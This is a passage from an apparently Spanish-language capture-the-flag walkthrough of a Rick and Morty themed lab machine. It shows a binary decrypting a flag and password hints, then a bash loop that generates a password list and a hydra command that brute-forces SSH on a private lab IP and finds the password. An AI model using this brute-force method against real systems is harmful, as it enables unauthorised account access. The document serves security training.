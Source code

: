 ### Al intentar ejecutar el script safe sale esto:

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ ./safe         
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
```

### Por lo que usaré de argumento el código de la flag de antes

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.
```

### Parece que tenemos pistas para averiguar la contraseña de RickSanchez, el cual ya sabemos que tiene permisos de sudo, haré una lista con todas las posibles convinaciones y la probaré con hydra (El nombre de la antigua banda de Rick es "The Flesh Curtains")

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ for l in {A..Z}; do for d in {0..9}; do for w in The Flesh Curtains; do echo "${l}${d}${w}"; done; done; done > listarick.txt
```

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ hydra -l RickSanchez -P listarick.txt ssh://192.168.1.243:22222
```

```
┌──(kali㉿kali)-[~/Desktop/maquina_rick_y_morty]
└─$ hydra -l RickSanchez -P listarick.txt ssh://192.168.1.243:22222

[DATA] max 16 tasks per 1 server, overall 16 tasks, 780 login tries (l:1/p:780), ~49 tries per task
[DATA] attacking ssh://192.168.1.243:22222/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 637 to do in 00:05h, 13 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 448 to do in 00:05h, 12 active
[22222][ssh] host: 192.168.1.243   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found

```
